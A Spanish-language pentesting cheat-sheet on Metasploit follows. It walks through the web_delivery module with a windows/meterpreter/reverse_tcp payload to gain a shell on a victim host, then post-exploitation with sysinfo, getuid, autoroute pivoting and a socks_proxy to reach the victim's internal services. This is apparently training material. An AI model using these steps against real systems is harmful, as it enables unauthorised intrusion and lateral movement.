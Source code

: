 ```yaml
---
Herramienta: 💣 Metasploit
Comando: msfconsole
Categoría: Explotación y post-explotación
SO: Multiplataforma
tags:
  - explotación
  - post-explotación
  - c2
  - pentesting
---
```


## Descripción

**Metasploit** es un framework de pruebas de penetración ampliamente utilizado que permite descubrir, explotar y manejar vulnerabilidades en sistemas informáticos. Es una herramienta modular que incluye exploits, payloads y herramientas de post-explotación para escenarios reales y pruebas de laboratorio.

## Características clave

- **Framework modular**: Incluye miles de exploits, payloads y módulos auxiliares.
- **Post-explotación**: Herramientas avanzadas para mantener acceso y extraer información.
- **Pruebas de seguridad**: Ideal para pruebas de penetración en redes y aplicaciones.
- **Multiplataforma**: Funciona en Windows, Linux y macOS.

## Ejemplo de uso

### Ejemplo 1

Vamos a seguir el ejemplo 1 de Powershell empire

Ejecuta la consola de Metasploit:

```bash
msfconsole

#Para buscar un determinado módulo podemos usar el comando search

search web_delivery

#En este caso vamos a utilizar el modulo web_delivery. Para mostras las opciones podemos utilizar el comando show options

show options
set target 2

#Hemos puesto el target 2 ya que vamos a atacar a un powershell. También vamos a tener que cambiar la ip para que apunte la conexión hacia nuestro sistema

Set LHOST ip
Set SRVHOST ip

#Ambas ips han de ser la de nuestro ordenador como pone en las instrucciones del modulo.

set payload windows/meterpreter/reverse_tcp

#Este cambio de payload (generalmente es automatico) nos permite especificar la sesión.

exploit

#Esto nos dará el comando a ejecutar en el host victima para conectarnos
```

**Después del ejemplo 1 de powershell empire**:

Parece que tras la ejecución del payload generado por metasploit tenemos una sesión de meterpreter, a partir de aquí hay varios comandos que podemos utilizar.

```cmd

sysinfo

#nos proporciona información del sistema

getuid

#nos porporciona información del usuario actual, con ctrl + z podemos dejar la sesion en background y vamos a pobrar otro modulo

search autoroute
set SESSION 1
run

#Esto nos permite ejecutar un escaner de puertos en el host victima (en la sesión que tenemos creada).

use auxiliary/server/socks_proxy
set SRVHOST ip #nuestra
run

#Este modulo nos permite vincular nuestro navegador al suyo y hay que cambiar el proxy en el navegador y poner nuestra ip y el puerto vinculado al del modulo y ya simplemente con poner el dominio o ip victima deberíamos ver el puerto 8080 de ese servidor

